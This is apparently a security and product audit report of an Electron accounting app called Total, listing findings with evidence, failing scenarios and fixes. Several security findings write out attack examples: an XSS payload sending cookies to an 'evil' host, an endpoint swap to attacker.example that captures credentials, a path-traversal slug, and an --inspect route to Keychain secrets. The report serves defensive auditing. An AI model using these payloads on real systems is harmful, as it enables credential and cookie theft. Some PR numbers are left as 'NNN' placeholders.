






# Total — whole-product audit, November 2026

7 November 2026 · code at `main` 0614071a (after #218) · independent audit: the auditors did not write this code.

**Scope.** Four areas: (1) security and privacy, (2) correctness and code health, (3) UI and UX in both modes, (4) product: what to keep, merge or cut, and the gaps. Things already triaged in `docs/plan/phase1-triage.md` are not reported again unless the code shows they are still open and they matter for 1.0.

**Method.**
- **Security:** read the code. A throwaway script listed all 695 IPC handlers with their role gate and Zod parse, and compared them with `AUDIT_COVERAGE`. `npm audit` was run on the app and on `site/`.
- **Correctness:** static analysis of the engine, services and editors, with every finding tied to a `file:line`. No test runs.
- **UX:** `npm ci` + `npm run build`, then the BUILT app was driven with a scratch Playwright driver over `scripts/lib/harness.mjs`. It used a scratch `TOTAL_DATA_DIR` and test secrets, never `~/Documents/total`. Four runs: first-run wizard, the sample company in simple mode, the sample company in the full app, and the wizard company again. The repo's own a11y sweep and banned-word list ran on every captured screen. 21 screenshots are in [`shots/`](shots/).
- **Product:** the screen registry, IPC families and features were compared with Tally Prime 6.x, Vyapar, myBillBook, Zoho Books and Busy (vendor pages, see §4).

**Bottom line.** **Nothing critical, and nothing a remote attacker can exploit.** The app opens no inbound connection, the renderer is sandboxed with a strict CSP, every IPC payload is Zod-parsed, and no viewer channel writes the books. The engine rules CLAUDE.md promises largely hold: profit always goes through `pnlLedgerAmounts`, the stock filter is lint-enforced, and binned vouchers stay out of the ~25 queries spot-checked.

The real risks for 1.0 are elsewhere:
- **one figure bug in Outstandings** (COR-1);
- **the first ten minutes of a new shop owner**: the sample company looks broken, and the first setup step drops them into the accountant form;
- **protection inside one Mac account and the release pipeline**: devtools reachable in production, caches outliving a lock, unsigned auto-releases every 12 h;
- **the surface itself**: about 320k lines of TypeScript, 91 screens, and five different AI doors.

## Executive summary — top 10 things to do (ranked)

| # | What | Severity | Area | Findings | Effort |
|---|---|---|---|---|---|
| 1 | **Fix Outstandings for an `against` bill reference on an entry that raises the balance.** A debit note to a customer, or a journal ticked against an invoice, *reduces* the invoice, so Outstandings ≠ ledger by twice the note. Everything bill-wise inherits it: Home, People, reminders, forecast. Needs an upgrade diff, because figures in existing books move. | High | Correctness | COR-1 (+ COR-2 editor over-allocation) | S–M |
| 2 | ✅ DONE — PR #248. **Make the first ten minutes right.** (a) The sample company should be coherent: openings done, no negative stock, selling prices, real cost of goods. Today it shows "Office Chair −3 Nos worth ₹15,000". (b) A simple "Business details" screen instead of the accountant form. (c) "Make your first bill" should be Home's main action. | High | UX | UX-2, UX-1, UX-15, UX-21 | M |
| 3 | **Production hardening pack for Electron:** a custom menu without Toggle Developer Tools, `devTools: !app.isPackaged`, Electron fuses (no `--inspect`, no `ELECTRON_RUN_AS_NODE`, asar integrity), a deny-by-default permission handler, and a preload channel allowlist. | Medium | Security | SEC-1, SEC-6, SEC-15, SEC-18, SEC-14 | S |
| 4 | ✅ DONE — PR #238. **Close the lock and user-switch gaps:** clear the renderer query cache on lock, sign-out and user switch; gate `manufacture:margin` and the agent mirror's trial balance on `canSeeProfit`; make `company:delete` respect the privacy lock; validate the `company:open` slug against the company list. | Medium | Security | SEC-2, SEC-11, SEC-12, SEC-8, SEC-3 | S |
| 5 | ✅ DONE — PR #NNN. **Update integrity.** Patch releases now ship every 12 h, unsigned, and anyone holding the GitHub or Vercel accounts can push a binary to every user. Until the Apple ID arrives, publish a signed (minisign/Ed25519) manifest that the app checks before offering a download, and stop handing unchecked URLs to `shell.openExternal`. | Medium (high impact) | Security | SEC-5, SEC-10 | M |
| 6 | **Bind the NIC/GSP credentials to their endpoint and require https** before any real sandbox credentials go in (Phase 4). Today, changing the address sends the stored password and secret to the new host, even over `http://`. | Medium | Security | SEC-4 | S |
| 7 | ✅ DONE — PR #242. **Site:** fix the stored XSS on `/changelog` (escape quotes, or render with React), add a CSP and security headers, and add a privacy notice, retention period and deletion path for the waitlist. | Medium | Security | SEC-7, SEC-17 | S |
| 8 | **One AI door.** Merge Ask Total, the chat drawer, capture, Assistants and Explain-this into one "Ask" panel plus one approval queue (this is the plan's Phase 3; make it the explicit goal and delete the extra doors). | High (product) | Product | PROD-1 | (Phase 3) |
| 9 | **Share the bill and get paid:** WhatsApp/e-mail/share-sheet for the invoice PDF, and a UPI QR with the amount on the print. Shops see this every day, and Vyapar and myBillBook sell on it. | High (product) | Product | PROD-7, PROD-8 | S–M |
| 10 | **CA defaults pack (accountant mode):** party picker scoped by voucher type, GST returns open on the period that is due, reports dated today with a grouped trial balance, fast company switching, and keyboard order on the invoice. | Medium | UX | UX-3, UX-4, UX-10, UX-12, UX-18, UX-11 | M |

**Also worth knowing (not in the top 10):**
- The #207 golden-fixture bugs are still open in code (`computeInvoice` never reads SEZ or export type, `voucherEdit/invoice.ts:208-261`). A sale to an SEZ unit in your own state gets CGST + SGST, and an LUT export gets IGST on the bill itself. That is wrong money on a customer's bill. It is already Phase 2 work, but it should be first in Phase 2.
- There is no linter, yet the code carries 60 `eslint-disable` comments (HEALTH-9).
- e2e has 92 `waitForTimeout` sleeps despite the zero-sleep rule, and e2e does not run on PRs (HEALTH-7).
- `ipc.ts` is 3,677 lines with 432 handlers (HEALTH-4).

### Findings by severity

| Area | Critical | High | Medium | Low |
|---|---|---|---|---|
| Security & privacy | 0 | 0 | 7 | 11 |
| Correctness & code health | 0 | 1 | 10 | 3 |
| UI & UX | 0 | 3 | 11 | 8 |
| Product | — | 3 | 5 | 7 |

---

## 1. Security & privacy

Scope: Electron app (`src/main`, `src/preload`, `src/renderer`, `src/shared`) and the marketing
site (`site/`). Method: I read the code, ran `npm audit --package-lock-only` in both trees, and
wrote a throwaway script  that lists all 695 `handle(...)`
registrations across the 17 IPC files with their role and whether they parse their payload, then
compared them with `AUDIT_COVERAGE`. I did not run the app and changed no repo file.

**Bottom line: nothing I found is critical and actively exploitable by a remote attacker.** The
app makes no inbound network connection, the renderer is sandboxed with a strict CSP, the IPC
sender check holds, and every payload I looked at goes through Zod. The real problems are
(a) the protection between users and the lock screen inside one OS account, which is weaker than
the design assumes (devtools are reachable in production, and renderer caches outlive a lock),
(b) secrets that are not tied to their endpoint (NIC), (c) supply-chain and update integrity for
unsigned builds, and (d) one stored XSS on the site.

Severity scale: critical = actively exploitable, data loss / exfiltration / RCE · high · medium · low.

---

### Findings

#### SEC-1 — Medium — Developer tools are reachable in production builds through the default application menu  ✅ DONE — PR #225

- **Evidence:** `src/main/index.ts` never calls `Menu.setApplicationMenu` (a grep for `Menu.` in
  `src/main` finds nothing), and `webPreferences` (`src/main/windowPolicy.ts:22-36`) does not set
  `devTools: false`. When no menu is set, Electron installs its default menu, whose View menu
  (`role: 'viewMenu'`) holds **Toggle Developer Tools**, and it does so in packaged builds too.
  `optimizer.watchWindowShortcuts` (`index.ts:154`, `node_modules/@electron-toolkit/utils/dist/index.mjs:44-49`)
  only swallows the ⌥⌘I / Ctrl+Shift+I *keystrokes* in production. Clicking the menu item is not
  blocked.
- **Failing scenario:** someone at the machine opens View → Toggle Developer Tools, then runs
  `window.total.invoke(channel, payload)` straight from the console. Main's role gate still
  applies, but every guard that exists only in the UI is gone, and this is the entry point for
  SEC-2, SEC-3 and SEC-8.
- **Fix:** call `Menu.setApplicationMenu(customMenu)` with no `toggleDevTools` / `reload` roles
  when `app.isPackaged`, and set `devTools: !app.isPackaged` in `mainWindowWebPreferences` (also
  for the hidden PDF window). Add a test next to `windowPolicy.test.ts`.

#### SEC-2 — Medium — The renderer query cache survives a lock and the next user's sign-in (data seen across users)  ✅ DONE — PR #238

- **Evidence:** `src/renderer/src/lib/companyCache.ts:11-19` clears the React Query cache only
  when the company slug changes ("A same-slug setCompany … or a lock/unlock is not a switch and
  keeps the cache"). `components/LockScreen.tsx:148-151` signs in with `setUser(result);
  setLocked(false)` and clears nothing. `App.tsx:205` unmounts the shell while locked, so the
  cached queries are still kept for the default `gcTime` of 5 minutes (`main.tsx:19-22` sets only
  `staleTime: 5_000`).
- **Failing scenario:** the owner looks at the P&L or the ledger statements, then presses ⌘L (or
  the idle lock fires). Within 5 minutes a viewer, or a user whose `canSeeProfit` is false, signs
  in on the same running app. The remounted screens paint the owner's cached query data first. The
  refetch then fails with `not_permitted`, but React Query keeps `data` when a query errors. With
  SEC-1, anyone at the lock screen can also read that data from the console without signing in.
  The `canSeeProfit` redaction and the role split are enforced in main, yet still leak through
  the renderer here. I did not check every screen's error rendering; the cache retention itself
  is certain.
- **Fix:** call `queryClient.clear()` when the session locks (`showLocked`) and whenever
  `auth:login` returns a user other than the one before. Clear the zustand stores that hold
  figures. Add a renderer test: lock → sign in as viewer → no cached P&L.

#### SEC-3 — Low — `company:open` takes any slug, so path traversal opens and migrates any `company.db` on disk  ✅ DONE — PR #238

- **Evidence:** `src/main/ipc.ts:1058-1062` checks `slug` only with `z.string().min(1)` and does
  not look it up in the registry. `paths.ts:56-61` builds `join(companiesDir(), slug)`. Then
  `openCompanyNow` (`ipc.ts:1214-1232`) calls `removeLeftoverCopies(...)` and `openCompanyDb`, and
  `connection.ts:29-32` runs `ensureCompanyTree(slug)` (mkdir) and migrations. `company:open` is in
  `UNGATED_CHANNELS` (`ipc.ts:452-478`). By contrast `company:delete` does check the registry
  (`ipc.ts:1015-1016`).
- **Failing scenario (needs renderer access, e.g. SEC-1):**
  `invoke('company:open', { slug: '../../../../Users/x/Desktop/other' })` opens, migrates and
  later backs up a database outside the data root, creates `backups/` / `exports/` there, and
  deletes `*.converting` / `.export-tmp-*` files in that folder. `company:forgetRemembered`
  (`ipc.ts:1132-1133`) has the same unchecked slug.
- **Fix:** accept only slugs that exist in `readRegistry()` and match `^[a-z0-9-]+$`. Use one
  `slugSchema` for every channel that takes a slug.

#### SEC-4 — Medium — NIC credentials are not bound to their endpoint; any URL, including `http://`, is accepted  ✅ DONE — PR #225

- **Evidence:** `src/shared/schemas.ts:591-601` accepts any `.url()` as `baseUrlEinvoice` /
  `baseUrlEwb`, `http:` included. `nic.ts:113-118` keeps `baseUrl`, `username`, `clientId` and
  `publicKeyPem` in the company DB meta (plaintext DB, carried in every backup) and only
  `password` / `clientSecret` in the secret store. `ipc.ts:3113-3121`: `nic:save` treats the mask
  sentinel as "keep the stored secret" even when the endpoint or the PEM changes. `nic.ts:400-425`
  then sends `client_secret` as a plain header and the password RSA-encrypted under
  `publicKeyPem`, to whatever `baseUrl` says. `fetch` follows redirects (`nic.ts:303`, no
  `redirect: 'error'`), and custom headers survive a cross-origin redirect. The AI layer already
  solves this case (`providerConfig.ts:94-107` `CUSTOM_ORIGIN_MOVED` + `bindCustomOrigin`); NIC
  does not.
- **Failing scenario:** an owner (or anyone at a company without users, or anyone who restores a
  tampered backup / edits the plaintext DB) sets the endpoint to `https://attacker.example` and the
  PEM to their own key, leaves the masked password, and clicks Connection test. The stored NIC API
  password and client secret go to the attacker, the password decryptable with their key. With
  `http://` the client secret and auth token cross the network in clear.
- **Fix:** require `https:` and an allowlist of NIC hosts (sandbox + production), or bind the
  secrets to the origin + PEM fingerprint they were saved with and drop them when either changes.
  Use `redirect: 'error'`.

#### SEC-5 — Medium — Update / distribution integrity rests only on GitHub and Vercel account security (unsigned builds, automatic releases)  ✅ DONE — PR #NNN (signed manifest; notarisation still open)

- **Evidence:** builds are unsigned (CLAUDE.md "Release steps", `package.json` `build` has no
  signing). Windows: `updater.ts:12-15` says electron-updater checks the installer's sha512 from
  `latest.yml` *in the same release* and, with no `publisherName`, no signature. macOS: the
  fallback opens `/api/download` (`updaterCore.ts:161,199,203`) and the user installs the DMG by
  hand; nothing verifies it. `scheduled-release.yml` publishes a release every 12 h from whatever
  is on `main`, gated on CI and figure equality only, while repo policy lets an agent merge PRs.
  No Electron fuses / ASAR integrity are set (`package.json` `build`, no `electronFuses`).
- **Failing scenario:** one compromised GitHub token, Actions dependency or merged malicious PR
  ships to every Windows install on its next "Restart to update", and to every Mac whose user
  follows the site's download. No second key stands in the way.
- **Fix:** sign and notarise (Developer ID; Authenticode with `publisherName`). Until then, publish
  a detached signature or a minisign / Ed25519 manifest signed with an offline key and check it
  in-app before installing or offering a download. Require human review for PRs that touch
  `package.json` / `package-lock.json` / `.github/` / `scripts/release/`. Enable fuses (SEC-6).

#### SEC-6 — Medium — No Electron fuses: same-user code can run as the app and read Keychain-protected secrets silently  ✅ DONE — PR #225

- **Evidence:** no `@electron/fuses` / `electronFuses` anywhere (package.json `build` keys:
  appId, productName, directories, files, extraResources, mac, win, nsis, publish). `RunAsNode`,
  `EnableNodeOptionsEnvironmentVariable` and `EnableNodeCliInspectArguments` therefore keep their
  default (on). Secrets rely on safeStorage (`secrets.ts`, `secretStore.ts`), and remembered DB
  data keys are allowed only into "strong" storage (`companyKeys.ts`, `SecretStore.strong`). The
  design trusts the Keychain's per-app access control.
- **Failing scenario:** a malicious process in the same macOS account starts
  `/Applications/Total.app/Contents/MacOS/Total --inspect=9229` (or uses `NODE_OPTIONS`) and runs
  `safeStorage.decryptString` inside the real app. The Keychain does not prompt, because the
  request comes from Total. That gives the AI key, the NIC password / client secret and the
  remembered company data keys, which open passphrase-locked books.
- **Fix:** flip `RunAsNode`, `EnableNodeOptionsEnvironmentVariable` and
  `EnableNodeCliInspectArguments` off, and turn `EnableEmbeddedAsarIntegrityValidation` +
  `OnlyLoadAppFromAsar` on, in an `afterPack` hook or electron-builder `electronFuses`.

#### SEC-7 — Medium — Stored XSS on the site's changelog page through release notes  ✅ DONE — PR #242

- **Evidence:** `site/lib/md.ts:7-16`. `escapeHtml` escapes `& < >` but **not `"`**, and `inline()`
  puts every `https?://[^\s<]+` match inside `href="$1"`. `site/app/changelog/page.tsx:38`
  renders it with `dangerouslySetInnerHTML`. The release body is the CHANGELOG section
  (`release.yml:78-79` → `gate.mjs notes`), i.e. text from merged PRs in a public repo. The site
  sends no CSP or security headers (`site/next.config.ts` is `{}`; `vercel.json` sets no headers).
- **Failing scenario:** a CHANGELOG line containing
  `https://x.y/"autofocus/onfocus="location='https://evil/'+document.cookie` gets merged and
  auto-released. Every visitor to `/changelog` runs the script with no click needed. It can
  rewrite the page's download links to a malicious installer (which compounds SEC-5) or call the
  waitlist server action.
- **Fix:** escape `"` and `'` in `escapeHtml`, build the anchor from a `new URL()`-validated href,
  or render with React elements. Add a CSP (`script-src 'self'`) and the usual headers in
  `next.config.ts`.

#### SEC-8 — Low — A passphrase-locked business without users can be deleted at its privacy lock without the passphrase  ✅ DONE — PR #238

- **Evidence:** `company:delete` is ungated (`ipc.ts:452-478`), so the privacy-lock refusal
  (`ipc.ts:559`) does not apply. Its passphrase step is skipped while the folder key is in memory
  (`ipc.ts:1022-1024` → `unlockFolderIfNeeded` returns early when `keyForPath(dbPath)`,
  `ipc.ts:1105`), and with no users `assertDeleteAuthorized` passes. `rmSync(companyDir(slug),
  { recursive: true })` (`ipc.ts:1045`) removes the local backups too.
- **Failing scenario:** with SEC-1, at the privacy-lock screen:
  `invoke('company:delete', { slug, confirmName })` deletes the books and every local backup. The
  normal UI path closes the company first (which forgets the key), so only the console path hits
  this. Rated low because a person at an unlocked OS session can `rm` the folder anyway; the
  in-app guarantee is still broken.
- **Fix:** in `company:delete`, refuse while `privacyLock` is set, and always require the
  passphrase for an encrypted business (`useRemembered: false` and ignore the in-memory key).

#### SEC-9 — Medium — The `.totalbak` export, a portable plaintext copy of the books, uses a weak KDF (scrypt N = 2^14)  ✅ DONE — PR #NNN

- **Evidence:** `src/main/db/crypt.ts:14` uses `SCRYPT_OPTS = { N: 16384, r: 8, p: 1 }`, which is
  hard-wired with no cost field in the header (`crypt.ts:3`, `HEADER_LEN`). The company key
  envelope uses N = 2^17 (`keyEnvelope.ts:21`). `backup:exportEncrypted` (`ipc.ts:1549-1572`)
  wraps a *plaintext* snapshot (`plainCopy`) plus every attachment. The passphrase minimum is 8
  characters (`schemas.ts:608`).
- **Failing scenario:** a `.totalbak` that was e-mailed or put on a USB stick is guessed offline
  about 8× cheaper than the OWASP minimum the rest of the app follows. An 8-character human
  passphrase falls to a GPU rig, and the attacker gets the full books.
- **Fix:** a `TOTALBK2` format with the KDF parameters in the header (and in the GCM AAD), using
  N ≥ 2^17 (or Argon2id), with `TOTALBK1` kept readable. Use async scrypt off the main thread.

#### SEC-10 — Low — The updater passes an unvalidated URL from the site / GitHub to `shell.openExternal`  ✅ DONE — PR #NNN

- **Evidence:** `updaterCore.ts:43-46,118` stores `downloadUrl` from `/api/latest` JSON (or
  GitHub's `html_url`) as `siteUrl`, and `updater.ts:71` opens it with `shell.openExternal`,
  bypassing the `allowedExternalUrl` policy that every other external open goes through
  (`windowPolicy.ts:40-42`, `shared/externalLinks.ts`).
- **Failing scenario:** a compromised site or DNS (TLS-valid) returns
  `downloadUrl: "search-ms:…"` / `"ms-msdt:…"` (Windows), `"smb://evil/share"` or a `file:` URL.
  On "Download now" the OS handler runs it, with no installer step in between.
- **Fix:** accept only `https:` URLs on `devjindal.tech` or `github.com/<repo>/releases`, else fall
  back to `RELEASES_URL`.

#### SEC-11 — Low — A `canSeeProfit: false` user can still read item margins through `manufacture:margin`  ✅ DONE — PR #238

- **Evidence:** `PROFIT_CHANNELS` (`src/main/capabilities.ts:20-29`) lists
  `report:itemProfitability`, but not `manufacture:margin` (`ipc.ts:1889-1892`, viewer).
  `manufactureReports.ts:128-132` describes it as "realised … margin, per manufactured item" (the
  item profitability figure).
- **Fix:** add `manufacture:margin` (and review `manufacture:costSheet` / `manufacture:production`
  for sale-value columns) to `PROFIT_CHANNELS`, and extend `security.dbtest.ts` to list every
  channel that returns sale value minus cost.

#### SEC-12 — Low — The agent read mirror is an undocumented plaintext copy of the books, and its auto-refresh ignores `canSeeProfit`  ✅ DONE — PR #238

- **Evidence:** `services/agentBridge.ts:45-46,156-161` writes CSV/JSON of the books to
  `<company>/agent/`. `scheduleMirrorRefresh` (`:168-176`) calls `exportMirror(db, slug)` with no
  options, so `canSeeProfit !== false` holds and the trial balance is written unredacted (`:138`).
  It is triggered after saves when the bridge is on (`ipc.ts:826,995,1903,1927,2009`,
  `ipcWorkspace.ts:50`). `docs/security/encryption-at-rest.md:154-158` does not mention
  `agent/` among the unencrypted locations.
- **Fix:** document it, encrypt it under the folder key when the business is locked (or refuse
  the mirror while locked), and pass the saving user's `canSeeProfit` to the refresh.

#### SEC-13 — Low — The PIN throttle allows a steady 1 try per 30 s; PIN hashes are cheap to brute-force offline  ✅ DONE — PR #238

- **Evidence:** `services/users.ts:143-145,191-196`: after 5 failures every further failure
  re-arms only a 30 s lockout (no backoff). PINs are 4-12 digits. `authcrypt.ts:6` uses scrypt
  N = 2^14 for the hash, stored in the (often plaintext) company DB.
- **Failing scenario:** a 4-digit owner PIN falls to `auth:login` within about 3.5 days of
  scripted tries (SEC-1 console), or within minutes offline from a copied `company.db`. Note that
  for a business without the passphrase lock, anyone with file access can simply edit the `users`
  table, so PINs only separate people; they are not access control against the OS account. That
  is worth saying in the docs.
- **Fix:** exponential backoff (30 s, 1 min, 5 min, 15 min …), a 6-digit minimum for owners, and
  a doc note.

#### SEC-14 — Low — The hidden PDF window runs JavaScript with no CSP  ✅ DONE — PR #225

- **Evidence:** `services/pdf.ts:42` `new BrowserWindow({ show: false, webPreferences: { sandbox: true } })`
  loads `data:text/html,…` (`:57`) with JavaScript on. The print HTML has no CSP meta
  (`print/render.ts:579-580`). The escaping I checked holds (`render.ts:175-185` `esc` on every
  user field I sampled; the logo is restricted to `data:image/...;base64` by `printTemplates.ts:207-211`;
  colours are hex-only, `:216`), so this is defence in depth only.
- **Fix:** `webPreferences: { sandbox: true, javascript: false, devTools: false }`, and a
  `<meta http-equiv="Content-Security-Policy" content="default-src 'none'; img-src data:; style-src 'unsafe-inline'; font-src data:">`
  in `wrapDocument` and the other HTML builders.

#### SEC-15 — Low — Electron's default permission handler grants everything  ✅ DONE — PR #225

- **Evidence:** no `session.setPermissionRequestHandler` / `setPermissionCheckHandler` in
